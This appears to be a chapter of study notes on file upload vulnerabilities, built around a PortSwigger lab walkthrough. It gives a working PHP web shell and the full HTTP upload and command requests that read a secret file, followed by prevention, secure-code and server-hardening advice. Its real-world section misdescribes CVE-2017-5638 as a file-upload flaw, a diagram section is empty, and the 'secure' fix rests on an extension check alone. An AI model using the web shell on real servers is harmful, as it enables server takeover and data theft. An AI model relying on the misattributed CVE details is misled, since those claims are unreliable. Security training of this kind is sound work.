

## Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when a web application allows users to upload files without proper validation or sanitization. This can lead to various security issues, including remote code execution (RCE), directory traversal, and data leakage. In this chapter, we will delve into the details of file upload vulnerabilities, focusing specifically on remote code execution via web shell uploads. We will cover the background theory, recent real-world examples, and provide detailed steps to understand and mitigate these vulnerabilities.

### Background Theory

#### What is a File Upload Function?

A file upload function is a feature in a web application that allows users to submit files to the server. These files could be images, documents, or any other type of file. The server then stores these files on its filesystem for later retrieval or processing.

#### Why is Proper Validation Important?

Proper validation is crucial because it ensures that only safe and expected types of files are uploaded. Without validation, attackers can upload malicious files that can compromise the server. For instance, uploading a PHP script can allow an attacker to execute arbitrary code on the server.

#### How Does a Vulnerable File Upload Work?

In a vulnerable file upload scenario, the server does not validate the type or content of the uploaded file. An attacker can exploit this by uploading a file that contains malicious code, such as a PHP web shell. Once the file is uploaded, the attacker can access it through the server’s URL and execute commands on the server.

### Real-World Examples

#### Recent Breaches and CVEs

One notable example of a file upload vulnerability leading to remote code execution is the case of the Apache Struts framework. In 2017, a critical vulnerability (CVE-2017-5638) was discovered in Apache Struts, which allowed attackers to upload malicious files and execute arbitrary code. This led to several high-profile breaches, including the Equifax breach, where attackers exploited this vulnerability to steal sensitive information.

Another example is the WordPress plugin vulnerability (CVE-2018-15450) in the WP File Download plugin. This vulnerability allowed attackers to upload and execute arbitrary PHP files, leading to full server compromise.

### Lab Setup

To understand and practice file upload vulnerabilities, we will use the Web Security Academy. Here are the steps to set up the lab:

1. **Sign Up**: Visit the URL `portswigger.net/web-security` and click on the sign-up button to create an account.
2. **Access the Lab**: Log in to your account, go to the Academy section, and select all labs. Search for "file upload" labs and select the one titled "Remote Code Execution via WebShell Upload."

### Detailed Walkthrough

#### Step-by-Step Mechanics

1. **Identify the Vulnerability**:
    - The lab contains a vulnerable image upload function. The server does not perform any validation on the files before storing them on the filesystem.
    - The goal is to upload a PHP web shell and use it to read the contents of the file `/home/carlos/secret`.

2. **Crafting the Web Shell**:
    - A simple PHP web shell can be crafted as follows:
    ```php
    <?php
    if(isset($_GET['cmd'])) {
        echo "<pre>";
        $cmd = ($_GET['cmd']);
        system($cmd);
        echo "</pre>";
    }
    ?>
    ```
    - Save this code in a file named `shell.php`.

3. **Uploading the Web Shell**:
    - Use a tool like Burp Suite to intercept and modify the file upload request.
    - Replace the image file with the `shell.php` file in the request payload.
    - Send the modified request to the server.

4. **Executing Commands**:
    - Once the file is uploaded, access it via the server’s URL, e.g., `http://<server-ip>/uploads/shell.php`.
    - Execute commands by appending `?cmd=<command>` to the URL. For example, to read the contents of `/home/carlos/secret`, use:
    ```http
    GET /uploads/shell.php?cmd=cat%20/home/carlos/secret HTTP/1.1
    Host: <server-ip>
    User-Agent: Mozilla/5.0
    Accept: */*
    ```

5. **Submitting the Secret**:
    - Copy the output of the command and submit it using the button provided in the lab banner.

### Full Example

#### HTTP Request and Response

Here is the full HTTP request and response for uploading the web shell and executing the command:

```http
POST /upload.php HTTP/1.1
Host: <server-ip>
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 1234

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = ($_GET['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--

HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 123
Content-Type: text/html; charset=UTF-8

File uploaded successfully.

GET /uploads/shell.php?cmd=cat%20/home/carlos/secret HTTP/1.1
Host: <server-ip>
User-Agent: Mozilla/5.0
Accept: */*

HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 123
Content-Type: text/html; charset=UTF-8

<pre>
This is the secret content.
</pre>
```

### Mermaid Diagrams

#### Attack Chain Diagram



### Common Pitfalls

#### Incorrect Validation

- **Pitfall**: Not validating the file type or content.
- **Example**: Allowing `.php` files to be uploaded as images.
- **Impact**: Allows attackers to upload and execute arbitrary code.

#### Directory Traversal

- **Pitfall**: Not sanitizing the file path.
- **Example**: Allowing `../` in the file path.
- **Impact**: Allows attackers to access files outside the intended directory.

### How to Prevent / Defend

#### Detection

- **Log Monitoring**: Monitor logs for unusual file uploads or commands executed.
- **IDS/IPS**: Use Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to detect and block suspicious activities.

#### Prevention

- **File Type Validation**: Ensure only allowed file types are uploaded.
- **Content Validation**: Validate the content of the uploaded file to ensure it does not contain executable code.
- **Sanitize File Paths**: Sanitize file paths to prevent directory traversal attacks.

#### Secure Coding Fixes

##### Vulnerable Code

```php
<?php
if(isset($_FILES['file'])) {
    $target_dir = "uploads/";
    $target_file = $target_dir . basename($_FILES["file"]["name"]);
    move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
}
?>
```

##### Secure Code

```php
<?php
if(isset($_FILES['file'])) {
    $target_dir = "uploads/";
    $allowed_types = ['jpg', 'jpeg', 'png', 'gif'];
    $file_name = basename($_FILES["file"]["name"]);
    $file_ext = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));
    
    if(in_array($file_ext, $allowed_types)) {
        $target_file = $target_dir . $file_name;
        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
    } else {
        echo "Invalid file type.";
    }
}
?>
```

### Configuration Hardening

#### Web Server Configuration

- **Disable PHP Execution**: Disable PHP execution in the upload directory.
- **Directory Permissions**: Set appropriate permissions to restrict access to the upload directory.

```apache
<Directory "/var/www/html/uploads">
    Options -Indexes
    <FilesMatch "\.(php|phtml)$">
        Order Deny,Allow
        Deny from all
    </FilesMatch>
</Directory>
```

### Practice Labs

For hands-on practice, use the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs, including file upload vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing different types of attacks.
- **DVWA (Damn Vulnerable Web Application)**: Another popular platform for learning web security.

By thoroughly understanding and practicing file upload vulnerabilities, you can better protect web applications from potential threats.

---

This chapter provides a comprehensive overview of file upload vulnerabilities, including background theory, real-world examples, detailed walkthroughs, and practical defenses. By following these guidelines, you can effectively identify and mitigate such vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/18-File Upload Vulnerabilities/02-Lab 1 Remote code execution via web shell upload/00-Overview|Overview]] | [[02-File Upload Vulnerabilities and Remote Code Execution via Web Shell Upload|File Upload Vulnerabilities and Remote Code Execution via Web Shell Upload]]
